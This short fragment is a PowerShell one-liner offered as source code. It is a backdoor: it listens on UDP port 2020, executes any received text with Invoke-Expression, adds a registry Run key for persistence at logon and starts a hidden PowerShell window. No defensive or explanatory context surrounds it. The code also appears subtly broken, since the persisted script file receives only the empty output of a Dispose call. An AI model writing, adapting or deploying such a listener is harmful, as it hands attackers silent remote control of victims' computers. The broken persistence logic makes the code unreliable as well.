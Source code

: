 
$port=2020; $endpoint = new-object System.Net.IPEndPoint ([IPAddress]::Any,$port); $udpclient=new-Object System.Net.Sockets.UdpClient $port; $content=$udpclient.Receive([ref]$endpoint); [Text.Encoding]::ASCII.GetString($content) | iex; $udpclient.Dispose() > $env:HOMEDRIVE + "\Users\" + "$env:USERNAME\script.ps1"; $rutaScript = $env:HOMEDRIVE + "\Users\" + "$env:USERNAME\script.ps1"; $nombreEntrada = "MiScript"; $valorEntrada = "powershell.exe -File $rutaScript"; New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name $nombreEntrada -Value $valorEntrada; Start-Process -FilePath "powershell.exe" -ArgumentList "-WindowStyle Hidden -File $rutaScript" -NoNewWindow -PassThru

